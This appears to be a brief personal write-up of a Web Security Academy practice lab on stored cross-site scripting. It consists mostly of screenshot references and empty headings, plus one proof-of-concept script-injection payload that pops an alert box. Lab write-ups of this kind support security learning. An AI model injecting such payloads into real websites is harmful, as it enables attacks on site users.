






# Lab: Stored XSS into HTML context with nothing encoded

URL: https://0a2e0026035d82d587103f8300c000ce.web-security-academy.net/



## Testing fields:







## Exploitation:





payload:
```
<script>alert("xss1")</script>
```